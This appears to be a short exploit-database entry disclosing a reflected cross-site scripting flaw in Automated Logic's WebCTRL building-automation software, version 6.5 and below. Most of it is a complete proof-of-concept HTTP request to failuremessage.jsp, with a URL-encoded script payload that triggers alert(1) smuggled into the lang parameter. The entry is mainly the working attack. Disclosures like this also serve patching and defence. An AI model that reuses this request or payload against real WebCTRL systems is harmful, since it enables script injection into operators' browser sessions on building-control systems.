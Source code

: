 # XSS vulnerability in Automated Logic's WebCTRL product
Exploit Title:  XSS in Automated Logic WebCTRL
Google Dork: - 
Date: 2020-08-25
Exploit Author: İsmail ERKEK 
Vendor Homepage: https://www.automatedlogic.com/
Version: 6.5 and below
Tested on: -

# Proof of Concept Request
-------------------------------------------------
GET /_common/lvl5/failuremessage.jsp?message1=Operator_authentication_failed1&message2=Operator_authentication_failed2&lang=en61302%26%23x22%3b%3balert(1)%2f%2f107 HTTP/1.1
Host: 127.0.0.1
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: http://127.0.0.1/?language=en
Cookie: JSESSIONID=15B8DBC7037CBF79B647B8D6F0ABEF0B
